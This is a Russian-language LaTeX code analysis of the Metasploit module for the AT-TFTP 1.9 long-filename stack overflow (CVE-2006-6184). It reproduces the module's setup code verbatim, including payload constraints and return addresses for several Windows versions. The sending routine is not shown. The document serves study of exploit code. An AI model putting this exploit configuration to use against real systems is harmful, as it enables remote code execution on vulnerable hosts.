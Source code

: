 \documentclass[10pt,a4paper]{report}
\begin{document}
\subsubsection{Модуль exploits/windows/tftp/attftp\_long\_filename.rb}
Этот модуль использует для переполнения стека, он отправляет запрос (на получение / запись), используя очень длинные имена.\\
Анализ кода.\\
Первым этапом указываются параметры модуля: имя, описание, автор и другое, а также регистрируются опции: RPORT, LHOST.
\begin{verbatim}
require 'msf/core'
class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Allied Telesyn TFTP Server 1.9 Long Filename Overflow',
      'Description'    => %q{
          This module exploits a stack buffer overflow in AT-TFTP v1.9, by sending a
        request (get/write) for an overly long file name.
      },
      'Author'         => [ 'patrick' ],
      'References'     =>
        [
          ['CVE', '2006-6184'],
          ['OSVDB', '11350'],
          ['BID', '21320'],
          ['EDB', '2887']
        ],
      'DefaultOptions' =>
        {
          'EXITFUNC' => 'process',
        },
      'Payload'        =>
        {
          'Space'    => 210,
          'BadChars' => "\x00",
          'StackAdjustment' => -3500,
        },
      'Platform'       => 'win',
      'Targets'        =>
        [
        # Patrick - Tested OK w2k sp0, sp4, xp sp 0, xp sp2 - en 2007/08/24
          [ 'Windows NT SP4 English',   { 'Ret' => 0x702ea6f7 } ],
          [ 'Windows 2000 SP0 English', { 'Ret' => 0x750362c3 } ],
          [ 'Windows 2000 SP1 English', { 'Ret' => 0x75031d85 } ],
          [ 'Windows 2000 SP2 English', { 'Ret' => 0x7503431b } ],
          [ 'Windows 2000 SP3 English', { 'Ret' => 0x74fe1c5a } ],
          [ 'Windows 2000 SP4 English', { 'Ret' => 0x75031dce } ],
          [ 'Windows XP SP0/1 English', { 'Ret' => 0x71ab7bfb } ],
          [ 'Windows XP SP2 English',   { 'Ret' => 0x71ab9372 } ],
          [ 'Windows XP SP3 English',   { 'Ret' => 0x7e429353 } ], # ret by c0re
          [ 'Windows Server 2003',      { 'Ret' => 0x7c86fed3 } ], # ret donated by securityxxxpert
          [ 'Windows Server 2003 SP2',  { 'Ret' => 0x7c86a01b } ], # ret donated by Polar Bear
        ],
      'Privileged'     => false,
      'DisclosureDate' => 'Nov 27 2006'))

    register_options(
      [
        Opt::RPORT(69),
        Opt::LHOST() # Required for stack offset
      ], self.class)
  end

\end{verbatim}
\end{document}
